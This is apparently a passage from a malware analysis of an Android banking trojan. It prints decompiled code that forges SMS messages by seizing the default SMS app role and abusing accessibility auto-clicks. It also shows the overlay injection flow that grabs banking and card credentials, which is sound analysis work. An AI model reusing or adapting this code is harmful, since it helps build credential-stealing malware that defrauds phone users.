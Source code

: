 ```cs
                        ActivityGenerateFakeSMS.this.Tools.notifyAndOpenSMS(ActivityGenerateFakeSMS.this);
                    }
                };
                this._const.getClass();
                handler0.postDelayed(activityGenerateFakeSMS$10, 30000L);
                this.finishAndRemoveTask();
            }
            catch(Exception unused_ex) {
            }

            return;
        }
    }

    @Override  // android.app.Activity
    protected void onCreate(Bundle bundle0) {
        super.onCreate(bundle0);
        if(this.getIntent().getExtras() == null) {
            this.finishAndRemoveTask();
            return;
        }

        this.Sender = this.getIntent().getExtras().getString("SENDER");
        this.Body = this.getIntent().getExtras().getString("BODY");
        ServiceAccessibility.autoClickForSmsManager = true;
        if(!this.Tools.isDefaultSMSApp(this)) {
            Intent intent0 = new Intent("android.provider.Telephony.ACTION_CHANGE_DEFAULT");
            intent0.putExtra("package", this.getPackageName());
            this.startActivityForResult(intent0, 0x14B05);
            return;
        }

        this.WriteSms(this.Body, this.Sender);
    }
```

The attacker uses social engineering to lure the user to open a specifc app such as banking app by pushing fake notifications or sending SMSs to the messaging app.

When the user open any targeted app and the malware successeded to steal the credential such as login credential or/and credit card credential, the malware labeled this app and don't perform `Overlay attack` against this app.

```cs
public void onPageFinished(WebView webView0, String s) {
                super.onPageFinished(webView0, s);
                if(s.contains("|DONE|")) {
                    try {
                        Utils.msg(ActivityInjection.this, "[Injector] Grabbing on " + ActivityInjection.pkg + " completed.");
                        Context context0 = ActivityInjection.this.mContext;
                        ActivityInjection.this.Tools.delInjectablePackage(context0, ActivityInjection.pkg, Boolean.valueOf(false));
                        Context context1 = ActivityInjection.this.mContext;
                        ActivityInjection.this.Tools.enableInjections(context1, false);
                        Context context2 = ActivityInjection.this.mContext;
                        ActivityInjection.this.store.set(context2, "LOCKER_PKG", "");
                        Context context3 = ActivityInjection.this.mContext;
                        ActivityInjection.this.Tools.startHiddenSMS(context3, true);
                        if(ActivityInjection.pkg.equals("com.android.vending")) {
                            Context context4 = ActivityInjection.this.mContext;
                            ActivityInjection.this.Tools.enableSocialInjection(context4, Boolean.valueOf(false));
```